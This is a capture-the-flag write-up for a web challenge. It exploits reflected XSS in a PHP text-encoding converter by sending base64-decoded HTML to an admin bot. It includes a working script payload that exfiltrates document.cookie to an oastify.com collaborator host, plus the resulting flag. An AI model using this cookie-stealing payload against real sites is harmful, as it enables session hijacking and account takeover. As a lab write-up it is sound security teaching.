


Our site is a converter of text to various formats, like base64, hex, binary, etc.



We are also given the source code of the page, aswell as an 'admin' page. This 'admin' page has a URL input for the admin to visit.



If we can find an exploit to steal the admin's cookies (as they said in the description). We get the flag!

```php
$output = "Example output";
if ((isset($_GET["input"]) && !is_null($_GET["input"])) && (isset($_GET["encoding"]) && !is_null($_GET["encoding"]))){
	$input = base64_decode($_GET["input"]);

	if($input === false){
		$output = "Invalid input";
	} else {
		switch ($_GET["encoding"]) {
			case "base64":
				$output = base64_encode($input);
				break;
```
A portion of the code catches my eye, specifically the base64 input. If we can put in a base64 input that decodes to HTML tags, we can cause an XSS!

Payload:

```html
</textarea>
<script>
i=document.createElement("img");
i.src="https://******************************.oastify.com?c="+btoa(document.cookie);
document.body.appendChild(i);
</script>
<textarea>
```

Encoding our payload with Base64 and then URL encoding it, and making a final url gives us this: `http://[url]:31337/?encoding=base64&input=[payload]`

And sending it to the admin, sends us back our Base64 encoded cookies with our flag!

Flag: `flag="potluck{uu_make_me_go_crazy}"`